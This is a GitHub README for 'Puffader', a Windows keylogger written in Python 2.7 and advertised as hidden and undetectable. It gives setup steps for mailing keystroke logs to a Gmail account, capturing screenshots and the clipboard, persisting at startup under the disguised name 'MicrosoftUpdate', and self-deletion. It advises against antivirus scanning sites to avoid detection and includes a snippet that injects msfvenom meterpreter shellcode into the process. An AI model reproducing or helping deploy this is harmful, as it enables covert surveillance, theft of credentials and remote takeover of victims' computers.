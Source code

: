 [![Build status](https://ci.appveyor.com/api/projects/status/5tc6085mmmw6rym8?svg=true)](https://ci.appveyor.com/project/xp4xbox/puffader)
# Puffader

**Python 2.7 is obsolete please use https://github.com/xp4xbox/Python-Backdoor**

Puffader is an opensource, hidden and undetectable keylogger for windows written in Python 2.7 which can also capture screenshots, mouse window clicks and clipboard data.

## Installation
Puffader Requires 32 bit versions of:
* [Python 2.7](https://www.python.org/downloads)
* [Pyhook](https://sourceforge.net/projects/pyhook/files/pyhook/1.5.1/)
* [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
* [PyScreeze](https://pypi.org/project/PyScreeze/)
* [Py2Exe](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)

1. Download the repository using github or git eg.```git clone https://github.com/xp4xbox/Puffader```
2. Install the modules by running `python -m pip install -r requirements.txt`

Please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Installing-Prerequisites) for more information on installing prerequisites.

## Features
Currently Puffader has several features such as:
* Ability to send logs to any gmail account.
* Ability to capture screenshots
* Ability to store logs locally
* Ability to configure log size before sending
* Ability to send logs at timed intervals
* Ability to stop the program via ctrl-rshift-lshift-h.
* Ability to log special characters.
* Ability to embed an undetectable meterpreter shell
* Ability to capture window mouse clicks
* Ability to run at startup
* Ability to capture clipboard data
* Ability to melt file on execution
* Checking for multiple instances
* And more...

## Quick Usage

1. Open file with idle or any other editor.
2. Modifiy lines `18-37` for your personal preference: eg.
```
strEmailAc = "email@gmail.com"
strEmailPass = "pass"

intCharPerSend = 1000

blnUseTime = "False"
intTimePerSend = 120

blnStoreLocal = "True"
strLogFile = "c:/temp/test.txt"

blnScrShot = "True"
strScrDir = "c:/temp"
intScrTime = 120

blnLogClick = "True"
blnAddToStartup = "False"

blnLogClipboard = "False"
blnMelt = "False"
```
> NOTE: For `strScrDir`, be sure to leave out the last `/`.

#### You can only choose one method for storing/sending logs, default is by email.

#### If you plan to send messages via email, be sure to [allow access for less secure apps](https://myaccount.google.com/lesssecureapps) in your gmail account.

#### If you ever set the program to run at startup and want to remove it, open regedit and navigate to `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` and delete the value `MicrosoftUpdate`.

For more information please refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Usage).

### Compiling Program To .exe

> NOTE: Never scan compiled .exe's with Virus Total, NoDistribute or any other online public scan sites.

#### Py2Exe
1. **(Optional)** Add this code to Puffader.py `sys.stderr = None` after the import statements to ensure no errors will show.
3. Make sure the program is called Puffader.py in your python folder as well.
4. Run `python setup.py`
5. You should see the .exe in the dist folder.

Or refer to the [wiki](https://github.com/xp4xbox/Puffader/wiki/Compiling-To-.exe) for more information.

## Adding Meterpreter Plugin

1. Generate raw shellcode using msfvenom (eg. xr8\x02...).
2. Encode the shellcode to base64 by using [this](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/base64encoder.py).
3. Move the [code_injector module](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/code_injector.py) to same dir as the program.
4. Paste in this code after the function to prevent multiple instances as [here](https://github.com/xp4xbox/Puffader/blob/master/Meterpreter_Plugin/Puffader_Code_Addition.py). Setting b64shellcode to be your encrypted shellcode.
```
import code_injector, base64
# base64 shellcode
b64shellcode = ""
shellcode = base64.b64decode(b64shellcode)  # decrypt shellcode
pid = os.getpid()  # get current pid

code_injector.InjectShellCode(pid, shellcode)  # inject the shellcode into the program
```
5. Build program with Py2Exe.

> Check my other project [PyEvade](https://github.com/xp4xbox/PyEvade) for more info on how this works.

## Help

If you need any help at all, feel free to post a "help" issue.

## Contributing

Contributing is encouraged and will help make a better program. Please refer to [this](https://gist.github.com/MarcDiethelm/7303312) before contributing.

## Disclaimer

This program must be used for legal purposes! I am not responsible for anything you do with it.

## License
[License](https://github.com/xp4xbox/Puffader/blob/master/LICENSE)
